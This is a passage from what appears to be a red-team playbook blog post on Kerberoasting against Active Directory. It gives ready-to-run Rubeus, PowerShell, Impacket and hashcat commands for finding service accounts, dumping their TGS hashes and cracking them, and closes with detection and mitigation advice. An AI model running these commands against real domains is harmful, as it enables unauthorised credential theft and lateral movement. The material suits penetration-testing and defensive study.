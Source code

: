 ```yaml
---
title: 'Kerberoasting'
date: 2025-09-23
permalink: /posts/kerberoasting/
tags:
  - red team playbook
---
```


Kerberoasting targets to attack Windows Active Directory's service accounts.

| Tactic (MITRE ATT&CK) | Technique (MITRE ATT&CK)  | Objective                                          | Permissions Required          | Common Tools              |
| --------------------- | ------------------------- | -------------------------------------------------- | ----------------------------- | ------------------------- |
| Credential Access     | T1558.003 - Kerberoasting | Getting service account's hash, and brute force it | Any Authenticated Domain User | Rubeus, Impacket, Hashcat |

---

## 1. Principle

Properties of kerberos authentication:

1.  **SPN (Service Principal Name):** In AD, there is an unique identifier (SPN) for MSSQL/HTTP/Service on a network that uses Kerberos authentication. It links a service to a specific user or computer account. For example: `MSSQLSvc/sqlserver.corp.local:1433`is a SPN. It is for telling AD that a machine`sqlserver.corp.local`is running port 1433 which is for MSSQL (service).
2.  **Kerberos TGS:** A user with a valid Ticket Granting Ticket (TGT) can request a Ticket Granting Service (TGS) ticket for a specific service. 
3.  **Vulnerability:** Any authenticated user can request a TGS ticket, and the Key Distribution Center (KDC) doesn't validate if the user has permissions to access the service before issuing the ticket.
4.  **Attack Process:**
    - **Discovery:** Any domain user can query the SPN account in domain
    - **Request:** Attackers can pretend they want to access the specific server and send a TGS request to KDC
    - **Gain:** KDC would not verify do they authorized to access specific server. KDC will accept it if they are valid user in domain. Then, KDC will send you back the TGS.
    - **Crack:** When the attacker get the TGS, they can export it and use hashcat to brute force.

---



## 2. Attack Steps & Commands

### Method 1: Using Rubeus (in Windows target machine)

**Step 1: Discover SPN's user**

```powershell
.\Rubeus.exe kerberoast /stats /nowrap
```

*   This command will list out all "Kerberoastable" information

(Optional) If you can only use powershell

```
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)(!samAccountName=krbtgt)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll() | ForEach-Object {
    @{
        SamAccountName = $_.Properties.samaccountname[0];
        ServicePrincipalName = $_.Properties.serviceprincipalname
    }
}
```

**Step 2: Request and Export TGS ticket**

```powershell
# Dump all the service account's TGS hash and save it as txt
.\Rubeus.exe kerberoast /outfile:hashes.txt
```

* Sample of `hashes.txt`：

  ```
  $krb5tgs$23$*service_account$CORP.LOCAL$MSSQLSvc/sql.corp.local*$...[hash]...
  ```

**Step 3: Cracking**

*   Brute force the `hashes.txt` with Hashcat

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt```
*   `-m 13100` is the format of kerberos 5 TGS-REP etype 23
```



# Method 2: Use Impacket in Linux of MacOS (Attack Machine)

If the attacker in the same network of domain

*   `GetUserSPNs.py` can do the same work (Discovery and Request)
    
    

```
-request: Request TGS
-dc-ip: Domain Controller's IP
corp.local/low_priv_user:password : use DC user to authenicate

python3 GetUserSPNs.py -request -dc-ip 192.168.1.10 corp.local/low_priv_user:Password123 -outputfile hashes.txt
```

**Step 3: Cracking**

*   Same as Rubeus

```bash
hashcat -m 13100 -a 0 hashes.txt /path/to/wordlist.txt
```



## 3. Defense & Mitigation

### Detection

1.  **Monitoring ID 4769:**
    *   event ID should be: `A Kerberos service ticket was requested`. A normal user should not be requesting a lot of TGS ticket. It should be detected as suspicious.
    *   Becareful that the `Service Name` is not  `krbtgt` and the `Ticket Encryption Type` should be `0x17` (RC4-HMAC)。It is easy to crack if using RC4 to encrypt.

2.  **Packet Analysis:**
    *   Some open source tools such as Zeek/Suricata. These ype of NIDS can monitor Kerberos traffic (Port 88)

### Prevention

1.  **Complex Password:**
    *   Follow strong password policy, using a complex password.
    *   **The best practice:** Use **Group Managed Service Accounts (gMSA)** [Kerberoasting-And-CyberAttack](https://petri.com/kerberoasting-ad-cyberattacks/)
        *   The password from gMSA is managed by Windows. It will be rotated and strong. 
2.  **Principle of Least Privilege:**
    - Ensure that only real service account has the permission of SPN
    - Ensure that no high permission user such as domain admin to use as service account